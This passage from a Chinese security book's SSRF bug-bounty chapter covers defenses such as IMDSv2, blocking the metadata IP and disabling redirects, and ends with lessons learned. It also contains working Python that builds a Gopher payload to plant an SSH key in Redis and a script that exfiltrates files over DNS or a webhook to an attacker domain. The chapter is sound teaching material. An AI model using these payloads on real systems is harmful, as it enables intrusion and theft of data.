即使存在SSRF，攻击者也很难获取元数据——因为PUT请求通常会被过滤，且Token无法从外部获取。**强烈建议所有AWS用户启用IMDSv2并禁用IMDSv1**。

#### 方案四：网络层防护

```bash
# iptables阻止对云元数据端点的访问
iptables -A OUTPUT -d 169.254.169.254 -j DROP

# 或者通过AWS安全组规则
# 在EC2实例的安全组中，禁止出站流量访问169.254.169.254

# 或者通过AWS Network Firewall
# 配置域名/URL过滤规则，阻止对元数据端点的访问
```

#### 方案五：HTTP库安全配置

不同编程语言的HTTP客户端需要特别注意的安全配置：

| 语言 | 库 | 关键安全配置 |
|------|-----|-------------|
| Go | net/http | 设置`CheckRedirect`拒绝重定向 |
| Python | requests | 设置`allow_redirects=False` |
| Java | HttpClient | 设置`followRedirects(NEVER)` |
| Node.js | axios | 设置`maxRedirects: 0` |
| PHP | curl | 设置`CURLOPT_FOLLOWLOCATION=false` |
| Ruby | Net::HTTP | 设置`redirect_okness = false` |

#### 防御方案对比

| 方案 | 安全等级 | 实施难度 | 误报率 | 适用场景 | 备注 |
|------|----------|----------|--------|----------|------|
| 白名单URL | ⭐⭐⭐⭐⭐ | 低 | 低 | 所有场景 | 最优方案，从根源杜绝 |
| 禁用重定向 | ⭐⭐⭐⭐ | 低 | 中 | 所有场景 | 部分合法场景可能受影响 |
| IMDSv2 | ⭐⭐⭐⭐ | 低 | 无 | AWS环境 | 仅适用于AWS，强推 |
| 协议白名单 | ⭐⭐⭐ | 低 | 低 | 所有场景 | 仅允许http/https |
| DNS绑定检测 | ⭐⭐⭐ | 高 | 高 | 仅作为补充 | 需要二次DNS解析验证 |
| 网络层拦截 | ⭐⭐⭐⭐ | 中 | 中 | 云环境 | 可作为纵深防御 |
| HTTP库安全配置 | ⭐⭐⭐ | 低 | 低 | 所有场景 | 基础防护，必须做到 |

---

### 27.1.8 经验教训与进阶

#### 本案例的关键经验

1. **重定向绕过是最有效的SSRF绕过方式之一**——许多安全过滤只检查了初始请求的URL，忽略了重定向后的目标。这是因为URL校验和HTTP请求发起通常在不同的代码层级，开发者容易遗漏重定向场景。
2. **云元数据服务是SSRF的终极目标**——获取云凭证后影响范围呈指数级扩大。一个"低危"的SSRF加上云元数据访问，可以升级为"严重"。
3. **多工具组合比单一工具可靠**——不同子域名枚举工具覆盖的数据源不同，组合使用可达90%+覆盖率。单一工具的覆盖率通常只有60-70%。
4. **Bug Bounty报告的完整性影响奖金**——包含完整PoC、影响分析和修复建议的报告更可能获得高评级。同等漏洞，报告质量的差异可以导致奖金相差2-3倍。
5. **User-Agent和响应头是信息金矿**——通过OOB请求的User-Agent可以判断后端语言（Go/Python/Java），这直接影响后续的绕过策略选择。

#### 进阶技巧：HTTP库行为差异表

不同编程语言的HTTP客户端在处理畸形URL时的行为差异，是SSRF绕过的基础：

| URL格式 | Python requests | Go net/http | Java HttpClient | Node.js axios |
|---------|----------------|-------------|-----------------|---------------|
| `http://127.0.0.1` | 正常访问 | 正常访问 | 正常访问 | 正常访问 |
| `http://0x7f000001` | 被阻止 | 解析为127.0.0.1 | 被阻止 | 被阻止 |
| `http://2130706433` | 被阻止 | 解析为127.0.0.1 | 被阻止 | 被阻止 |
| `http://127.0.0.1@evil.com` | 请求evil.com | 请求127.0.0.1 | 请求evil.com | 请求evil.com |
| `http://evil.com#@127.0.0.1` | 请求evil.com | 请求evil.com | 请求evil.com | 请求evil.com |
| `http://evil.com\@127.0.0.1` | 请求evil.com | 被阻止 | 请求127.0.0.1 | 被阻止 |
| 302重定向到内网 | 跟随 | 跟随(默认10次) | 跟随 | 跟随 |


**利用差异进行绕过**：如果目标后端是Go语言，可以尝试十进制/十六进制IP绕过（Go的net/url库会解析这些格式）。如果后端是Python，可以尝试@符号混淆（Python的requests库会将@前的部分当作URL的一部分）。了解后端语言是精准绕过的前提。


#### 进阶技巧：Gopher协议深度利用

Gopher协议可以构造任意TCP数据包，是Blind SSRF场景下的强大工具：

```python
# gopher_exploit.py - 利用Gopher协议攻击Redis
import urllib.parse

def generate_redis_payload(command="INFO"):
    """构造Gopher协议的Redis命令payload"""
    # Redis协议格式：*参数数量\r\n$参数长度\r\n参数\r\n
    payload = f"*1\r\n${len(command)}\r\n{command}\r\n"
    encoded = urllib.parse.quote(payload, safe='')
    return f"gopher://127.0.0.1:6379/_{encoded}"

# 示例：写入SSH公钥
def redis_write_ssh_key(attacker_pubkey):
    """通过Redis写入SSH公钥实现RCE"""
    payload = (
        "*3\r\n$3\r\nSET\r\n"
        f"$1\r\n1\r\n"
        f"${len(attacker_pubkey)}\r\n{attacker_pubkey}\r\n"
        "*4\r\n$6\r\nCONFIG\r\n"
        "$3\r\nSET\r\n"
        "$3\r\ndir\r\n"
        "$13\r\n/root/.ssh/\r\n"
        "*4\r\n$6\r\nCONFIG\r\n"
        "$3\r\nSET\r\n"
        "$10\r\ndbfilename\r\n"
        "$15\r\nauthorized_keys\r\n"
        "*1\r\n$4\r\nSAVE\r\n"
    )
    encoded = urllib.parse.quote(payload, safe='')
    return f"gopher://127.0.0.1:6379/_{encoded}"
```

#### 进阶技巧：Blind SSRF数据外带

当服务器不返回响应内容时，需要通过带外通道获取数据：

```python
# blind_ssrf_exfil.py - Blind SSRF数据外带
import requests
import base64
import time

def exfil_via_dns(ssrf_url, file_path, attacker_domain):
    """通过DNS查询外带文件内容"""
    with open(file_path, 'r') as f:
        content = f.read()
    
    # Base64编码（比hex更紧凑）
    encoded = base64.b64encode(content.encode()).decode()
    
    chunk_size = 50  # DNS标签最大63字节
    for i in range(0, len(encoded), chunk_size):
        chunk = encoded[i:i+chunk_size]
        exfil_url = f"http://{chunk}.{attacker_domain}/"
        try:
            requests.get(ssrf_url, params={"url": exfil_url}, timeout=2)
        except:
            pass  # DNS查询已异步触发
        time.sleep(0.5)  # 避免请求过快被限流

def exfil_via_http_log(ssrf_url, data, webhook_url):
    """通过HTTP请求日志外带数据"""
    # 将数据编码到URL参数中
    encoded = base64.b64encode(data.encode()).decode()
    payload_url = f"{webhook_url}?data={encoded}"
    requests.get(ssrf_url, params={"url": payload_url}, timeout=2)
```

#### 进阶阅读与延伸方向

针对希望深入SSRF研究的读者，以下方向值得关注：

1. **SSRF + 内网未授权服务利用链**：通过SSRF访问内网的Jenkins（API执行脚本）、Hadoop（YARN REST API执行命令）、Elasticsearch（读取所有索引）、Consul（获取所有服务配置）等，可以实现从SSRF到RCE的升级。
2. **SSRF在GraphQL中的利用**：GraphQL的`@import`指令和自定义标量类型可能引入SSRF向量，特别是当GraphQL服务器支持schema introspection时。
3. **SSRF与反序列化的组合**：某些框架在处理URL资源加载时会使用反序列化，SSRF可以触发反序列化漏洞。
4. **云原生环境的SSRF**：Kubernetes环境中，SSRF可以访问kubelet API（10250端口）、kube-proxy API（10256端口）、etcd（2379端口），实现容器逃逸。

---

### 27.1.9 本章小结

SSRF漏洞之所以在Bug Bounty领域长盛不衰，是因为它触及了Web安全最核心的矛盾之一：**应用需要访问外网资源，但外网的可信度不可控**。本案例通过一个真实的电商平台SSRF挖掘过程，完整呈现了从侦察到利用再到报告的完整链路。

| 阶段 | 关键行动 | 产出 |
|------|----------|------|
| 侦察 | 多工具子域名枚举 + 端口扫描 | 发现内网暴露子域名 |
| 发现 | 逐层测试绕过策略矩阵 | 重定向绕过成功 |
| 利用 | 访问云元数据服务 + 凭证验证 | 获取AWS IAM临时凭证 |
| 报告 | 完整PoC + CVSS评分 + 修复建议 | $15,000 + $2,000质量奖金 |

**核心启示**：

1. **防御SSRF的最佳方案是"白名单URL + 禁用重定向 + 云元数据保护"的三层组合**，而非依赖黑名单过滤。黑名单永远有遗漏，白名单才能从根源杜绝。
2. **重定向绕过是当前最常见的SSRF绕过方式**，开发者在做URL校验时必须考虑重定向场景——不仅校验初始URL，还要校验重定向后的最终目标。
3. **云环境是SSRF利用的放大器**，一个"中危"的SSRF在云环境中可以升级为"严重"甚至"致命"。所有云用户都应当启用IMDSv2并限制元数据访问。
4. **对于Bug Bounty研究者而言**，掌握多种绕过技术（尤其是重定向和DNS重绑定）、理解后端语言特性、提供高质量的报告，是在SSRF方向上取得突破的关键。
5. **负责任披露是底线**，在确认漏洞影响后应立即停止深入利用，将精力转向编写清晰、完整的报告——这才是获得高奖金的正确路径。
